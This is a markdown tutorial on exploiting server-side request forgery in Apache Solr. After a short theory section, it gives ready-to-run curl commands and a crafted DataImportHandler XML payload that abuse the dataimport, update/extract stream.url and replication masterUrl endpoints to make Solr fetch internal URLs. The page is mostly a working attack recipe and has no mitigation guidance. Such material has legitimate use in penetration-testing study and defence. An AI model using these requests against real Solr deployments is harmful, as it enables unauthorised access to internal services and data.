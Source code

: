 ```yaml
---
title: Exploiting SSRF Vulnerabilities in Apache Solr
description: Learn to exploit SSRF in Apache Solr using HTTP service interaction techniques.
keywords:
- Apache Solr
- SSRF
- HTTP APIs
- Solr core
- admin UI
- exploitation
- server-side request forgery
- dataimporthandler
- security vulnerability
---
```


# Apache Solr

## Context

This article demonstrates how to exploit Server-Side Request Forgery (SSRF) vulnerabilities in Apache Solr through HTTP-based service interactions. Readers should have prior knowledge of the HTTP protocol, web server architecture, Solr core structure, and SSRF exploitation techniques.

## Theory

### Apache Solr SSRF Attack Surface

Apache Solr is an open-source search platform that offers extensive HTTP APIs for core management and data operations. Solr's admin UI and core configuration endpoints can intentionally or unintentionally trigger outbound HTTP requests. When Solr's HTTP APIs do not properly validate input sources, attackers may exploit these functionalities to make the server perform HTTP requests to arbitrary URLs, controlled by the attacker or redirected to internal systems.

### Solr Core and Admin UI SSRF Vectors

A Solr core is essentially a logical index with its own configuration that is accessible via RESTful endpoints. The attack sequence potentially involves submitting a crafted HTTP request to Solr's admin API that references a URL. This URL can be internal to the network or external to the server. The Solr server, upon processing such a request, may make a server-side HTTP request to the attacker-supplied URL.

### HTTP Request Manipulation in Solr

Certain HTTP APIs in Solr, such as `/solr/{core}/dataimport` and `/solr/admin/cores`, support the loading of remote resources based on user-supplied URLs. Misconfigured or improperly validated URL schemes, including `http`, `https`, or even `file`, may allow for SSRF exploits if these are not sufficiently restricted.

## Practice

### SSRF via DataImportHandler (DIH) Config Upload

1. **Execute a cURL request:**

   ```bash
   curl -X POST 'http://<solr-host>:8983/solr/<core>/dataimport?command=full-import&dataConfig=<dataConfig-xml>' -H 'Content-Type: application/xml'
   ```

   This command uploads a carefully crafted `dataConfig` XML that references an internal HTTP resource.

2. **Crafted XML payload:**

   ```xml
   <dataConfig>
       <dataSource type="URLDataSource"/>
       <document>
           <entity name="e1" url="http://127.0.0.1:8080/internal" processor="XPathEntityProcessor"/>
       </document>
   </dataConfig>
   ```

   This XML payload directs Solr to fetch a local or internal HTTP resource as specified.

**Outcome:** Solr server makes HTTP requests to URLs provided by the attacker, potentially accessing internal resources.

### SSRF via Remote Streaming File Upload

1. **Execute a cURL request:**

   ```bash
   curl 'http://<solr-host>:8983/solr/<core>/update/extract?stream.url=http://127.0.0.1:8080/internal'
   ```

   This command directs Solr to fetch and process a remote file through the `stream.url` parameter.

**Outcome:** Solr will retrieve resources located on either remote or internal servers, facilitating SSRF to internal services.

### SSRF via Replication Handler

1. **Execute a cURL request:**

   ```bash
   curl 'http://<solr-host>:8983/solr/<core>/replication?command=fetchindex&masterUrl=http://127.0.0.1:8080/internal'
   ```

   By manipulating the `masterUrl` parameter, Solr is coerced into connecting to an internal URL.

**Outcome:** Solr establishes a connection to URLs controlled by an attacker or located within the internal network through the replication handler.

## Tools

- **curl**
- **Burp Suite**